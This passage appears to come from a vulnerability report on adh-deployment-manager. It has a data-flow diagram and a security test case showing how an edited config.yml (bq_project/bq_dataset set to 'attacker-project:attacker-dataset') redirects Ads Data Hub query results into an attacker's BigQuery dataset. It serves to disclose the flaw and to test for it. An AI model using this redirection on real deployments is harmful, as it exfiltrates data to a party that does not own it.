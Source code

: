     - **Visualization:**

    ```mermaid
    graph LR
        subgraph Configuration Loading
            ConfigYML[/config.yml/] --> ConfigClass(Config Class in config.py)
            ConfigClass -- Reads bq_project, bq_dataset --> RunnerClass(Runner Class in commands/run.py)
        end

        subgraph Query Execution
            RunnerClass -- Constructs BQ output path --> AnalysisQueryClass(AnalysisQuery Class in query.py)
            AnalysisQueryClass -- Uses BQ output path in API calls --> ADH_API[(Ads Data Hub API)]
            ADH_API -- Writes query results to --> AttackerBQ[(Attacker's BigQuery Project/Dataset)]
        end

        style ConfigYML fill:#f9f,stroke:#333,stroke-width:2px
        style ADH_API fill:#ccf,stroke:#333,stroke-width:2px
        style AttackerBQ fill:#faa,stroke:#333,stroke-width:2px
        LinkStyle 0,1,2,3,4 stroke:#f66,stroke-width:2px,color:#f00;
    ```

* Security Test Case:
    1. **Setup:**
        - Deploy `adh-deployment-manager` in a test environment where you can modify the `config.yml` file.
        - Have a legitimate Google Cloud Project and BigQuery dataset where the tool is intended to write data (let's call it `legitimate-project:legitimate-dataset`).
        - Create a separate Google Cloud Project and BigQuery dataset under your control to simulate the attacker's environment (let's call it `attacker-project:attacker-dataset`). Ensure you have credentials to access `attacker-project:attacker-dataset`.
        - Configure `adh-deployment-manager` to use `legitimate-project:legitimate-dataset` in the original `config.yml`.
    2. **Malicious Configuration Modification:**
        - As an attacker, gain access to the `config.yml` file in the deployed environment.
        - Modify the `config.yml` file by changing the `bq_project` and `bq_dataset` values to your attacker-controlled project and dataset:
          ```yaml
          # ... other configurations ...
          bq_project: attacker-project
          bq_dataset: attacker-dataset
          # ... other configurations ...
          ```
        - Save the modified `config.yml` file.
    3. **Execute `adm run` command:**
        - As a legitimate user (or trigger the tool through its intended workflow), execute the `adm run` command (or any command that triggers query execution and data writing) using the modified `config.yml`:
          ```bash
          adm -c path/to/modified/config.yml run
          ```
    4. **Verify Data Exfiltration:**
        - After the `adm run` command completes successfully, check the BigQuery dataset in your attacker-controlled project (`attacker-project:attacker-dataset`).
        - Verify that the output tables generated by `adh-deployment-manager` and the corresponding query results are present in `attacker-project:attacker-dataset`, instead of the intended `legitimate-project:legitimate-dataset`.
    5. **Confirmation of Vulnerability:**
        - If the output tables and data are found in `attacker-project:attacker-dataset`, it confirms that the configuration manipulation vulnerability is exploitable, and an attacker can successfully redirect data output to their controlled environment.

---